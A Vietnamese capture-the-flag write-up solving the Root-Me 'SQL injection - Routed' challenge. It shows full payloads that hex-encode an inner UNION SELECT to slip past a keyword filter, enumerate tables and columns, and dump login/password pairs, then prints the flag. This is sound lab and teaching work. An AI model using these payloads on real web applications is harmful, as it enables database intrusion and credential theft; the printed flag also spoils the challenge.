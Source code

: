 # Rootme.SQL-Routed

Point: 35

Exploit my requests

Statement: Find the password

Related resource: [Routed SQL Injection - Zenodermus Javanicus (Exploitation - Web)](https://securityidiots.com/Web-Pentest/SQL-Injection/routed_sql_injection.html)

# Overview

Form cảu challlenge như sau

![image](https://user-images.githubusercontent.com/115911041/232952854-5b94276c-de72-41b4-8842-c8bbeec403a1.png)

Challenge lần này cung cấp cho ta một web có chứng năng login và search. Vậy ta cần phải tìm password để login vào administrator

# Solution

Sau một vài lần thử một số payload đơn giản ở `Home` thì không có gì nhiều xảy ra. Mình chuyển sang `Search` để tiếp tục, sau khi thừ chèn `'` thì đã có hi vọng

![image](https://user-images.githubusercontent.com/115911041/232953414-aec1b1fa-fed5-4ea2-8d1e-ee945fd49e9f.png)

Vậy là database đang sử dụng MariaDB. Mình tiếp tục thử các lệnh khác thì đều bị filter hết như `or`, `and`, `order by`.

Nếu các bạn có đọc tài liệu mà challenge đã cung cấp thì sẽ biết cách bypass SQL-Routed.Là chúng ta sẽ chuyển câu truy vấn sang dạng hex là xong.

``` 
#Hex of: -1' union select login,password from users-- a
-1' union select 0x2d312720756e696f6e2073656c656374206c6f67696e2c70617373776f72642066726f6d2075736572732d2d2061 -- a
```

Nếu các bạn muốn nhanh thì có thể sử dụng payload đó vào phần search là sẽ ra flag. Nhưng mình sẽ tiếp tục sử dụng cách khác để có thể hiểu bài hơn.Như anh Khánh đã từng nói:"Làm được python tồi hãy nghĩ đến sử dụng tool".

Bước đầu, mình sử dụng query này:
`' UNION SELECT 1 -- --`

![image](https://user-images.githubusercontent.com/115911041/232954760-1d4d65e0-6176-4cb8-8019-751c1930ff06.png)

Vậy chứng tỏ là sau khi thực hiện câu lệnh union select 1, nó sẽ tiếp tục đi thực hiện một câu lệnh truy vấn khác nữa. Vì nếu chỉ có 1 câu lệnh thì nó sẽ trả về 1 thôi.

Bây giờ ta chỉ cần xác định số column, mình sẽ sử dụng `order by`

```
#Hex of: ' order by 1-- --
' union select 0x27206f7264657220627920312d2d202d2d -- -- 
```
Sau đó tăng dần đến 3 thì báo lỗi ` Unknown column '3' in 'order clause'`, vậy số column là 2. Giờ ta sẽ xác định cột nào bị lỗi

```
#Hex of: ' union select 1,2-- --
' union select 0x2720756e696f6e2073656c65637420312c322d2d202d2d -- --
```
![image](https://user-images.githubusercontent.com/115911041/233455933-9de6acd6-b610-4eaa-a593-024007610bc4.png)

Cả 2 cột đều bị lỗi.Tiếp theo ta sử dụng hàm [group_concat](https://www.w3resource.com/mysql/aggregate-functions-and-grouping/aggregate-functions-and-grouping-group_concat.php) và hàm [database()](https://www.w3schools.com/mysql/func_mysql_database.asp)

```
#Hex of: 'union select 1, (select group_concat(table_name,'-') from information_schema.tables where table_schema=database())-- --
' union select 0x27756e696f6e2073656c65637420312c202873656c6563742067726f75705f636f6e636174287461626c655f6e616d652c272d27292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573207768657265207461626c655f736368656d613d64617461626173652829292d2d202d2d -- --
```

![image](https://user-images.githubusercontent.com/115911041/233639271-fbc0e15d-fa7c-402d-b521-70a965e7ae55.png)

Có kết quả trả về là bảng users. Ta tiếp tục khai thác trên đó tiếp

```
#Hex of : 'union select 1, (select group_concat(column_name,'-') from information_schema.columns where table_name='users')-- --
' union select 0x27756e696f6e2073656c65637420312c202873656c6563742067726f75705f636f6e63617428636f6c756d6e5f6e616d652c272d27292066726f6d20696e666f726d6174696f6e5f736368656d612e636f6c756d6e73207768657265207461626c655f6e616d653d27757365727327292d2d202d2d -- --
```

![image](https://user-images.githubusercontent.com/115911041/233640179-e9ffb381-ee0e-4730-87bc-ad27e4c6b305.png)

Kết quả trả về 4 cột id, login, password và email.Ta chỉ cần lấy password

```
#Hex of : 'union select 1, group_concat(login,'-',password) from users-- --
' union select 0x27756e696f6e2073656c65637420312c2067726f75705f636f6e636174286c6f67696e2c272d272c70617373776f7264292066726f6d2075736572732d2d202d2d -- --
```

![image](https://user-images.githubusercontent.com/115911041/233641043-a5885718-5938-4209-9bf6-9493c6dc9fa7.png)

`Flag:qs89QdAs9A`

